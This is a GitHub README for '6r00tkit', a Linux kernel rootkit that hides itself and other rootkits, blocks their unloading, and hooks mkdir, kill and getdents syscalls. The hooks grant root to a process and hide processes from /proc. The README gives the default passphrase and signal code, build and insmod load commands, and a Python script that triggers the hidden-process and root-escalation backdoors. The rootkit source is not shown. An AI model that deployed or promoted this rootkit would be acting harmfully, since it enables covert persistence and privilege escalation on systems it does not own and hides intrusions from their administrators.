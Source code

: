 # 6r00tkit

## Description

6r00tkit (Grootkit) is a rootkit used to hide and protect itself and other rootkits, to hide process and to set root permissions on a process (privilege escalation).

How it's works:
 - Remove itself and other rootkit from the kernel modules list
 - Use itself and other rootkit to block an unload
 - Hooks 4 syscalls
    - `mkdir`, to get the root permissions for any process you may use the passphrase in `mkdir` syscall (default passphrase is `1 4m 6r00t`)
    - `kill`, to get a hidden process you may use the special signal in `kill` syscall (default is `14600` - numbers in `1 4m 6r00t`)
    - `getdents64` to hide process (process directory in `/proc`)
    - `getdents` to hide process (process directory in `/proc`)

## Requirements

 - Linux system
 - Root permissions to load the module

## Build

```bash
wget https://github.com/mauricelambert/6r00tkit/archive/refs/heads/main.zip
unzip main.zip
cd 6r00tkit-main/
bash compile.sh
```

## Load

### Default parameters

```bash
sudo insmod ./6r00tkit.ko
```

### Add parameters

```bash
sudo insmod ./6r00tkit.ko modulename="other_rootkit" passphrase="s3cr3t" killcode=666
```

## Usages

You can use it like the following with python (or use it with any program and script, you only need to call specific syscalls with specific values):

```python
from os import mkdir, getuid, kill, listdir, getpid, system

print("PID:", getpid())
print("\n".join(listdir("/proc/")))
system("ps aux | grep python")
kill(getpid(), 14600) # i use the default signal, you should use your own signal if added as parameters on load
print("\n".join(listdir("/proc/")))
system("ps aux | grep python")

print("Current UID:", getuid())
system("whoami")
mkdir("1 4m 6r00t") # i use the default passphrase, you should use your own passphrase if added as parameters on load
print("Current UID:", getuid())
system("whoami")
```

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).